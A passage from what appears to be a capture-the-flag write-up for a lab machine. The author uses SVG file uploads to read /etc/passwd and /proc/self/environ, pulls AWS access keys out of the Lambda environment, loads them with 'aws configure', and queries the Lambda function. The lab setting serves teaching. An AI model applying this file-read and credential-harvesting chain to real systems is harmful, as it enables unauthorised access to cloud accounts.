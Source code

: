 ```xml
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
rngd:x:996:994:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
slicer:x:995:992::/tmp:/sbin/nologin
sb_logger:x:994:991::/tmp:/sbin/nologin
sbx_user1051:x:993:990::/home/sbx_user1051:/sbin/nologin
...
sbx_user1176:x:868:865::/home/sbx_user1176:/sbin/nologin
</text>
</svg>   
```

I then get a read of `/proc/self/environ`
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="100%" height="100%" viewBox="0 0 100 100">
  <text x="20" y="35">My AWS_LAMBDA_FUNCTION_VERSION=$LATESTEDGE_PORT=4566HOSTNAME=60be4322cf6b_LAMBDA_CONTROL_SOCKET=14AWS_LAMBDA_FUNCTION_TIMEOUT=10LOCALSTACK_HOSTNAME=172.18.0.2AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/UploadToS3LAMBDA_TASK_ROOT=/var/taskLD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/libAWS_LAMBDA_RUNTIME_API=127.0.0.1:9001AWS_LAMBDA_LOG_STREAM_NAME=2024/12/17/[$LATEST]808b2c6d5578422764722a1abab44cc9_LAMBDA_SHARED_MEM_FD=11AWS_EXECUTION_ENV=AWS_Lambda_python3.8_LAMBDA_RUNTIME_LOAD_TIME=1530232235231AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000AWS_LAMBDA_FUNCTION_NAME=UploadToS3PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin_LAMBDA_LOG_FD=9AWS_DEFAULT_REGION=us-east-1PWD=/var/taskAWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUYLAMBDA_RUNTIME_DIR=/var/runtimeLANG=en_US.UTF-8TZ=:UTCAWS_REGION=us-east-1AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFBSHLVL=0HOME=/home/sbx_user1051AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:UploadToS3_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2_AWS_XRAY_DAEMON_PORT=2000_X_AMZN_TRACE_ID=Root=1-dc99d00f-c079a84d433534434534ef0d;Parent=91ed514f1e5c03b2;Sampled=1_LAMBDA_SB_ID=7AWS_XRAY_CONTEXT_MISSING=LOG_ERROR_LAMBDA_CONSOLE_SOCKET=16AWS_LAMBDA_COGNITO_IDENTITY={}_HANDLER=handler.lambda_handlerDOCKER_LAMBDA_USE_STDIN=1AWS_LAMBDA_FUNCTION_MEMORY_SIZE=1536</text>
</svg>  
```

Parsing this, and re-looking at the URL we are uploading to, this is an AWS system and we are uploading to a `lambda`. To use these credentials we can use the AWS CLI.

We have all the information we need:
- `AWS_REGION=us-east-1`
- `AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFB`
- `AWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY`


We setup the config:
```bash
$ aws configure                                                                              
AWS Access Key ID [****************RFFB]: AKIA5M34BDN8GCJGRFFB
AWS Secret Access Key [****************LGUY]: eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY
Default region name [us-east-1]: 
Default output format [None]: 
```

We can then use these creds to get information about the Lambda function in the environment variables: `UploadToS3`
```bash
$ aws --endpoint-url=http://local.clouded.htb/ lambda get-function --function-name UploadToS3
{
    "Configuration": {
        "FunctionName": "UploadToS3",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:UploadToS3",
        "Runtime": "python3.8",
        "Role": "arn:aws:iam::000000000000:role/LambdaS3Access",
        "Handler": "handler.lambda_handler",
        "CodeSize": 21510285,
        "Description": "",
        "Timeout": 10,
        "LastModified": "2024-12-14T20:33:21.687+0000",
```